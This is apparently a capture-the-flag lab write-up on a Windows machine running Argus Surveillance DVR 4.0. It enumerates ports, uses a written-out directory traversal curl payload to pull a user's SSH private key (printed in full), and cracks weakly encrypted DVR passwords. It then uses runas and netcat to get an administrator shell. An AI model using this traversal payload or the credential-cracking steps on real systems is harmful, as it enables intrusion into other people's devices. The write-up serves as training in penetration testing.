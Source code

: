 # Network enumeration

```bash
PORT      STATE    SERVICE
22/tcp    open     ssh
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
5040/tcp  open     unknown
7680/tcp  open     pando-pub
8080/tcp  open     http-proxy

```

<img src="../Images/image-20230820163639124.png" alt="image-20230820163639124" style="zoom:80%;" />

## Port enumeration

## SMB(135/445)

<img src="../Images/image-20230820165507972.png" alt="image-20230820165507972" style="zoom:80%;" />

## Port 8080

<img src="../Images/image-20230820165831724.png" alt="image-20230820165831724" style="zoom:80%;" />

A camera management system. Search on google with `Argus Surveillance DVR`.

Find [Argus Surveillance DVR 4.0.0.0 - Directory Traversal](https://www.exploit-db.com/exploits/45296)

<img src="../Images/image-20230820165929991.png" alt="image-20230820165929991" style="zoom:80%;" />

It's useful. Also the port ssh was opened, check the users.

<img src="../Images/image-20230820170005081.png" alt="image-20230820170005081" style="zoom:80%;" />

There are 2 users.

1. Administrator
2. Viewer

Try to get `id_rsa` with `Directory Traversal`.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/DVR4]
└─$ curl "http://192.168.212.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FViewer%2F.ssh%2Fid_rsa"                                                                                    
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----

```

Try to login ssh.

<img src="../Images/image-20230820171613498.png" alt="image-20230820171613498" style="zoom:80%;" />

# PE

## Easy Information Collection

Following [Argus Surveillance DVR 4.0 - Weak Password Encryption](https://www.exploit-db.com/exploits/50130), we can know the password configuration file in `C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini`.

<img src="../Images/image-20230820171930368.png" alt="image-20230820171930368" style="zoom:80%;" />

Analysis this file.

### Administrator Password

<img src="../Images/image-20230820172110811.png" alt="image-20230820172110811" style="zoom:80%;" />

`Administrator:ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8`

### Viewer Password

<img src="../Images/image-20230820172151938.png" alt="image-20230820172151938" style="zoom:80%;" />

`Viewer=5E534D7B6069F641E03BD9BD956BC875EB603CD9D8E1BD8FAAFE`

Use the exploit to try to crack password.

<img src="../Images/image-20230820172311492.png" alt="image-20230820172311492" style="zoom:40%;" />

But administrator didn't cracked. Just `14WatchD0g?`, the last one I don't know, can create a wordlist for special characters.

<img src="../Images/image-20230820172340962.png" alt="image-20230820172340962" style="zoom:40%;" />

<img src="../Images/image-20230820173717882.png" alt="image-20230820173717882" style="zoom:50%;" />

<img src="../Images/image-20230820172405809.png" alt="image-20230820172405809" style="zoom:40%;" />

Viewer's password is cracked. That's `ImWatchingy0u`

### User Privileges

<img src="../Images/image-20230820172647695.png" alt="image-20230820172647695" style="zoom:80%;" />

## Test Password

Cause I made a wordlist for special characters, so use `runas` to test administrator, then when I test with `14WatchD0g$`, that's correct.

<img src="../Images/image-20230820174546130.png" alt="image-20230820174546130" style="zoom:80%;" />

So use administrator to running the `nc`.

<img src="../Images/image-20230820174705908.png" alt="image-20230820174705908" style="zoom:80%;" />

Get administrator shell.

<img src="../Images/image-20230820174823905.png" alt="image-20230820174823905" style="zoom:80%;" />
